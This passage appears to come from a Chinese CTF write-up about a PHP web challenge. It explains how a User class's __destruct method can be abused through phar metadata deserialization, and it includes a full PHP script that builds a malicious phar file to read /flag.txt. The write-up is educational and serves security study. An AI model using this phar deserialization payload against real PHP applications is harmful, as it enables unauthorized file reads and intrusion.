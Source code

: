 ```php
}
?>
```

其他的源码就不放了，重点几乎都在class.php这个文件里。通过分析代码可知，User类里面的魔法函数__destruct调用了db的close方法，如果我们能把User的db变量改成别的就有事情可以搞了。这里是整道题最难的地方，db默认在__construct里赋值，根本就不是我们能够控制的。如果自己构建一个另外的可以控制的User类，又没法让这个类被程序运行……吗？

反序列化漏洞千千万，php魔法函数占一半。这里这么多莫名其妙的魔法函数，一定是有其用途的。结合网站对上传文件内容过滤十分宽松的漏洞点，我们可以考虑[phar](https://blog.csdn.net/Xxy605/article/details/120101090)，phar有个大名鼎鼎的[phar反序列化漏洞](https://tttang.com/archive/1732/)。反序列化漏洞让我们可以对已有的类构造任意内容，正是我们想要的。

[这里](https://xz.aliyun.com/t/2715)已经讲得很好了。Phar之所以能反序列化，是因为Phar文件会以序列化的形式存储用户自定义的meta-data,PHP使用phar_parse_metadata在解析meta数据时，会调用php_var_unserialize进行反序列化操作。也就是说，我们构建一个phar文件，把想要触发反序列化漏洞的类放入meta-data，然后使用`phar://`伪协议读取phar文件就能触发反序列化漏洞了。使用php制作phar一个脚本搞定([来源](https://cloud.tencent.com/developer/article/1813568))，制作的方法都是固定的，内容不同罢了。

```php
<?php

class User {
    public $db;
}

class File {
    public $filename;
}
class FileList {
    private $files;
    private $results;
    private $funcs;

    public function __construct() {
        $file = new File();
        $file->filename = '/flag.txt';
        $this->files = array($file);
        $this->results = array();
        $this->funcs = array();
    }
}

@unlink("phar.phar");
//创建一个phar对象
$phar = new Phar("phar.phar"); //后缀名必须为phar

$phar->startBuffering();

$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

$o = new User();
$o->db = new FileList();
//把自定义的user类放入metadata，这个user类的db是FileList
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("exp.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```

